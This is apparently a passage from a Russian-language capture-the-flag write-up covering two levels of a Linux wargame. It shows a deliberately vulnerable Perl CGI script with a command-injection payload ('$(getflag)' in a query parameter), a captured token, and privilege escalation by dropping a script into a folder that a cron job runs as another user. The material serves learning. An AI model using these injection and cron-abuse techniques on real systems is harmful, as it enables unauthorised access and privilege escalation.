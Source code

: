 ```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
Пояснения: \
обратиться к первому переданному аргументу и его значение присвоить переменной y \
$y = $_[0];

здесь  print \`echo $y 2>&1\`;     \
\` работают аналогично system

`x(param("x"));`
в квери параметре если указать `index.py?x=$(getflag)`, подставится нужная команда вместо x
```sh
curl localhost:4747?x='$(getflag)'
# ||
# \/
# Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

# перехожу к 5му уровню
su level05 ne2searoevaevoem4ov4ar8ap
```

#
###### [вернуться к содержанию](#content)
<a name="lvl05"></a> 
# level05

1. В терминале при переходе на уровень появляется сообщение, что пришло письмо (иногда не появляется). \
В переменной окружения MAIL путь к письму
```sh
cat /var/mail/level05 
# ||
# \/
# */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
*/2 * * * * синтаксис линукс планировщика. Для расшифровки:
https://crontab.guru/ \
`||` \
`\/` \
“At every 2nd minute.”
значит запускается скрипт с правами flag05
```sh
cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
значит, надо положить в /opt/openarenaserver/ свой скрипт \
getfacl /opt/openarenaserver/ - покажет наличие возможности записывать в эту папку
```sh
#!/bin/bash
echo "getflag > /opt/openarenaserver/psswflag" > /opt/openarenaserver/run.sh

```